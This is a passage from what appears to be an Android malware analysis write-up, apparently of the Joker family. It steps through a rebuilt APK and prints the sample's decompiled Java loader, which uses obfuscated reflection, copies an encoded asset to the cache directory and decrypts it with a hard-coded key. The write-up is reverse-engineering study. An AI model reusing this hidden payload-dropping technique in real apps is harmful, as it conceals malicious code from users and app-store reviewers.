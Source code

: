 Rebuild the **new** **apk**
Then, installing the **new apk** and if we go to **a2 → a → b function**
![[joker6.png]]

We’ll look the **! =**
Now we **leave** **b()**, the **app** will entry to **a2.a.a()**
```java
public static void a(Context context, String str) {
    try {
        try {
            Method method = context.getClass().getMethod(c.a.o(new StringBuffer("FAUeRWDPR"), new StringBuffer("!$")), new Class[0]);
            for (String str2 : ((Resources) context.getClass().getMethod(c.a.o(new StringBuffer("TVGaV@\\FAPV@"), new StringBuffer("3")), new Class[0]).invoke(context, new Object[0])).getAssets().list(str)) {
                try {
                    if (str2.endsWith(c.a.o(new StringBuffer("spqn484"), new StringBuffer("@")))) {
                        StringBuffer stringBuffer = new StringBuffer();
                        stringBuffer.append("ma1");
                        stringBuffer.append("7FEC");
                        InputStream open = ((AssetManager) method.invoke(context, new Object[0])).open(f40a + str2);
                        File file = new File(context.getCacheDir(), c.a.u(3));
                        FileOutputStream fileOutputStream = new FileOutputStream(file);
                        byte[] bArr = new byte[1024];
                        while (true) {
                            int read = open.read(bArr);
                            if (-1 == read) {
                                break;
                            } else {
                                fileOutputStream.write(bArr, 0, read);
                            }
                        }
                        open.close();
                        fileOutputStream.flush();
                        fileOutputStream.close();
                        c.a.f1860a = new String(stringBuffer).concat("2_l").concat("Yuo").concat("NQ").concat("$_To").concat("T99u_e0kINhw_Bzy");
                        c.a.v(context, file.getPath(), c.a.f1860a, new File(context.getCacheDir(), c.a.u(2).concat(".temp")).getPath());
                    }
                    Log.e("fileName", str2);
                } catch (Exception e2) {
                    e2.printStackTrace();
                }
            }
        } catch (IllegalAccessException | InvocationTargetException e3) {
            e3.printStackTrace();
        }
    } catch (IOException | NoSuchMethodException unused) {
    }
}
```
